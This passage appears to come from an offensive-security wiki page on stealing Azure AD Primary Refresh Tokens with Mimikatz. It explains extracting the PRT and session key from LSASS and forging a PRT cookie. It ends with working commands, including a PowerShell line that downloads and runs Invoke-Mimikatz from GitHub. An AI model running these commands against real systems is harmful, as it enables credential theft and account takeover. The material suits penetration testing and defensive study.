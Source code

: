 Then go to [https://portal.azure.com](https://portal.azure.com)

{% hint style="danger" %}
The rest should be the defaults. Make sure you can refresh the page and the cookie doesn’t disappear, if it does, you may have made a mistake and have to go through the process again. If it doesn’t, you should be good.
{% endhint %}

### Attack - Mimikatz

#### Steps

1. The **PRT (Primary Refresh Token) is extracted from LSASS** (Local Security Authority Subsystem Service) and stored for subsequent use.
2. The **Session Key is extracted next**. Given that this key is initially issued and then re-encrypted by the local device, it necessitates decryption using a DPAPI masterkey. Detailed information about DPAPI (Data Protection API) can be found in these resources: [ByteBreach](https://khulnasoft.github.io/bytebreach/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) and for an understanding of its application, refer to [Pass-the-cookie attack](az-pass-the-cookie.md).
3. Post decryption of the Session Key, the **derived key and context for the PRT are obtained**. These are crucial for the **creation of the PRT cookie**. Specifically, the derived key is employed for signing the JWT (JSON Web Token) that constitutes the cookie. A comprehensive explanation of this process has been provided by Dirk-jan, accessible [here](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

{% hint style="danger" %}
Note that if the PRT is inside the TPM and not inside `lsass` **mimikatz won't be able to extract it**.\
However, it will be possible to g**et a key from a derive key from a context** from the TPM and use it to **sign a cookie (check option 3).**
{% endhint %}

You can find an **in depth explanation of the performed process** to extract these details in here: [**https://dirkjanm.io/digging-further-into-the-primary-refresh-token/**](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/)

{% hint style="warning" %}
This won't exactly work post August 2021 fixes to get other users PRT tokens as only the user can get his PRT (a local admin cannot access other users PRTs), but can access his.
{% endhint %}

You can use **mimikatz** to extract the PRT:

```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
